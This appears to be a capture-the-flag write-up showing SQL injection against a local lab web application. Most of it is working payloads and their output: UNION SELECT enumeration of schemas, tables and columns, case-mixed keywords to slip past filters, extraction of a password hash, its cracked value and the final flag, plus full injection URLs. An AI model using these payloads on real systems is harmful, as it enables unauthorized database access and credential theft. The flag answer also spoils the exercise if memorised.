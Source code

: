 # SQL Injection

```
1 OR 1=1
```
```
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```
```
1 UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

Surname : |information_schema|,|Member_Brute_Force|,|Member_Sql_Injection|,|Member_guestbook|,|Member_images|,|Member_survey|
```

```
1' UNION SELECT version(),database()
ID: 1 UNION SELECT version(),database()
First name: 5.5.44-0ubuntu0.12.04.1
Surname : Member_Sql_Injection
```

```
1 UNION ALL SELECT table_name,2 from information_schema.tables

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: db_default
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: users
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: guestbook
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: list_images
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: vote_dbs
Surname : 2
```

```
ID: 1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
First name: 1
Surname : |users|
```

```
1 UNION ALL SELECT column_name,table_name from information_schema.columns

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: user_id
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: first_name
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: last_name
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: town
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: country
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: planet
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: Commentaire
Surname : users
```

```
1 UNION SELECT concat(user_id,char(58),first_name,char(58),last_name,char(58),town,char(58),country,char(58),planet,char(58),Commentaire,char(58),countersign),2 FROM users
First name: 5:Flag:GetThe:42:42:42:Decrypt this password -> then lower all the char. Sh256 on it and it's good !:5ff9d0165b4f92b14994e5c685cdce28
```
5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


list Columns : 
`http://192.168.56.102/\?page\=searchimg\&id\=1+UNION+ALL+SELECT+column_name%2Ctable_name+from+information_schema.columns\&Submit\=Submit\#`

display comment : 
`http://192.168.56.102/?page=searchimg&id=1+UNION+SELECT+concat%28id%2Cchar%2858%29%2Curl%2Cchar%2858%29%2Ctitle%2Cchar%2858%29%2Ccomment%2Cchar%2858%29%29%2C2+FROM+list_images&Submit=Submit#`


